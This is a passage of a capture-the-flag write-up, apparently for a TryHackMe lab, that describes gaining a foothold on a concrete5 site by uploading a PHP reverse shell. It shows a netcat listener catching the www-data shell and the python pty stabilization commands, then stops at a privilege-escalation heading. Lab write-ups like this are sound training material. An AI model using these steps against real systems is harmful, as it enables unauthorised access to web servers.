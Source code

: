 We search for concrete5 :

![[Pasted image 20250724145905.png]]

HackerOne :

![[Pasted image 20250724150411.png]]

So we add php files and we can basically upload a [[Reverse Shell]] :

![[Pasted image 20250724150717.png]]

## First Access Netcat

We set up the listener and click on the file :

```bash
┌──(hax㉿HaxonKali)-[~]
└─$ nc -lvnp 1337                           
listening on [any] 1337 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.139.248] 33420
Linux mkingdom.thm 4.4.0-148-generic #174~14.04.1-Ubuntu SMP Thu May 9 08:17:37 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 09:08:05 up 21 min,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),1003(web)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

## Shell Stabilization

We can have a more stable [[Shell]] performing [[Shell Stabilization]] :

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@mkingdom:/home$ export TERM=xterm
export TERM=xterm
www-data@mkingdom:/home$ clear
clear
www-data@mkingdom:/home$ ^Z
zsh: suspended  nc -lvnp 1337
                                                                                                                                  
┌──(hax㉿HaxonKali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1337
                               reset
```

# Lateral Movement - Privilege Escalation
